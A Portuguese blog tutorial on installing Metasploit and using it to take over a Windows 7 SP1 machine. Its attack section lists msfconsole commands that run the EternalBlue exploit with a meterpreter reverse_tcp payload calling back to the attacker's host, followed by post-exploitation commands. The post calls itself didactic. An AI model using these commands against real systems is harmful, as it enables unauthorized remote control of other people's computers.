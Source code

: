 ```yaml
---
layout: post
title: "Como Acessar o Windows pelo Linux com Metasploit"
date: 2019-04-17 21:03:35
image: '/assets/img/dicas/metasploit-linux-min.jpg'
description: 'Metasploit é um projeto de segurança da informação que fornece informações sobre vulnerabilidades de segurança e ajuda nos testes de penetração.'
main-class: 'bash'
tags:
- metasploit
- security
- windows
---
```


![Como Acessar o Windows pelo Linux com Metasploit](/assets/img/dicas/metasploit-linux-min.jpg)

## Introdução

O [Metasploit](https://www.metasploit.com/) é um projeto de segurança da informação que fornece informações sobre vulnerabilidades de segurança e ajuda nos testes de penetração . 

É de propriedade da empresa de segurança Rapid7 , de Boston, Massachusetts que possui diversos softwares ( **Opcode** - *Banco de Dados* ; e o **Shellcode** , *que executa comandos de* [Shell Script](http://terminalroot.com.br/shell), ... ), entre eles o mais conhecido que é o [Metasploit Framework](https://github.com/rapid7/metasploit-framework), um software de código aberto uma ferramenta para explorar falhas de uma máquina remota.

O Metasploit possui 6 tipos de módulos (*auxiliary*, *exploit*, *payload*, *post*, *encoder* e *nop*) . No vídeo apresentado por nós vamos utilizar o [Meterpreter](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter) que  é um *payload* avançado.


## Instalação

Existem diversas maneiras de você instalar o **Metasploit Framework** . Baixando diretamente pelo site <https://www.metasploit.com/> ou pelo GitHub <https://github.com/rapid7/metasploit-framework> . Ou instalando via gerenciador de pacotes da sua distribuição, por exemplo, na distribuição que eu utilizo [Gentoo](https://gentoo.org) basta realizar os comandos abaixo:

{% highlight bash %}
# su ou sudo
emerge -a net-analyzer/metasploit \
dev-ruby/metasploit_payloads-mettle \
dev-ruby/metasploit_data_models \
dev-ruby/metasploit-payloads \
dev-ruby/metasploit-model \
dev-ruby/metasploit-credential \
dev-ruby/metasploit-concern \
app-eselect/eselect-metasploit
{% endhighlight %}

O comando acima irá pedir para atualizar o *package.use* por conta das flags, então rode o comando:

{% highlight bash %}
etc-update --automode -5
{% endhighlight %}

E então rode o comando de instalação novamente.

Após instalação, talvez você não encontre o comando `msfconsole` responsável por abrir o Metasploit, então crie um link simbólico com o *root* ou *sudo*, com o comando abaixo:

{% highlight bash %}
ln -s /usr/lib64/metasploit4.17/msfconsole /usr/bin/msfconsole
{% endhighlight %}

E pronto, o Metasploit está pronto para uso! Lembrando que em algumas distribuições já possuem o Metasploit instalado por padrão, como o [Pentoo](http://terminalroot.com.br/2018/02/como-instalar-o-pentoo-um-gentoo-para-pentest.html) e o [Kali Linux](https://www.kali.org/) entre outras criadas especialmente para testes de invasão.

Próximo passo é rodar o Metasploit rodando o comando:

{% highlight bash %}
msfconsole
{% endhighlight %}

Isso irá abrir o framework, e em seguida usaremos o Meterpreter para acessar o [Windows](http://terminalroot.com.br/2018/03/como-usar-o-shell-bash-no-windows.html) , basta rodar os comandos abaixo na ordem:

{% highlight bash %}
use exploit/windows/smb/ms17_010_eternalblue
set RHOST NÚMERO_IP_DA_MÁQUINA_WINDOWS
set payload windows/x64/meterpreter/reverse_tcp
set LHOST NÚMERO_IP_DA_SUA_MÁQUINA
set encoder generic/none
exploit
{% endhighlight %}

Lembrando que esses comandos são a grosso modo e servem para Windows 7 Service Pack 1 , para outras versões assista o vídeo com link abaixo que há mais detalhes para variados casos:

Após acessar você pode obter informações detalhadas do sistema com o comando `sysinfo`; tirar um print da tela com o comando `screenshot` ; saber qual diretório você está com o comando `pwd` a saída será algo do tipo *c:\windows\system32\* ; desligar, reiniciar,... entre vários comando que podem ser consultado pelo comando `help` .

## Assista ao Vídeo

# [Clique Aqui Para Ver o Vídeo](https://youtu.be/VcbC0yJsWic)

> Esse artigo e o vídeo apresentado foram criados com finalidade didática.

***

## Conheça nosso Treinamentos de Shell Script, Vim, Expressões Regulares e Sed
# <http://terminalroot.com.br/cursos>

## Crie Sua Promoção
# <http://terminalroot.com.br/promo>

## Acompanhe todos os vídeos da **Série Shell Script Profissional**
# [#ShellPro](http://bit.ly/shell-pro-root)

Comente!

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>

<!-- Informat -->
<ins class="adsbygoogle"
 style="display:block"
 data-ad-client="ca-pub-2838251107855362"
 data-ad-slot="2327980059"
 data-ad-format="auto"
 data-full-width-responsive="true"></ins>

<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>

